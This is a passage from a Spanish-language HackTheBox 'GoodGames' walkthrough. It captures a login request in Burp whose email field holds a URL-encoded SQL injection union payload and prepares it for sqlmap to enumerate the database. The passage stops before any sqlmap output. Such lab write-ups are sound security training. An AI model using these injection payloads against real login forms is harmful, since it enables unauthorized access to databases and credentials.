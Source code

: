 > VHOST --> `internal-administration.goodgames.htb`

Lo añado al vhost y accedo desde el navegador.

Al acceder me encuentro con un panel de inicio de sesión, pero no dispongo de credenciales por lo que primero he de buscarlas y lo único que se me ocurre es volver atrás... en el punto de la inyección sql en el campo del email del login.

Por lo que decido usar la herramienta sqlmap y para ello sigo estos pasos:

* Capturo la petición con burpsuite y la guardo en un archivo.

![](/assets/images/HTB/Goodgames-HackTheBox/burp.webp)

```bash
POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://goodgames.htb/signup
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://goodgames.htb
DNT: 1
Connection: close
Cookie: session=.eJw1yz0KgDAMBtC7fHMRXDN5E4kkjYX-QNNO4t3t4v7egzN29RsUObsGaOGUQWApqR7WmhgX9e0eFwKSgPaA3MxUUgWNPlearr0u9j-8Hz1GHgw.Y5Va1Q.196byvxnsltOJqreVcIHC7DrRHo
Upgrade-Insecure-Requests: 1
email=%27+union+select+1%2C2%2C3%2C4--+-&password=111111
```

* Una vez tengo la petición guarda en un archivo, ya puedo proceder, lo primero es descubrir el nombre de la base de datos.
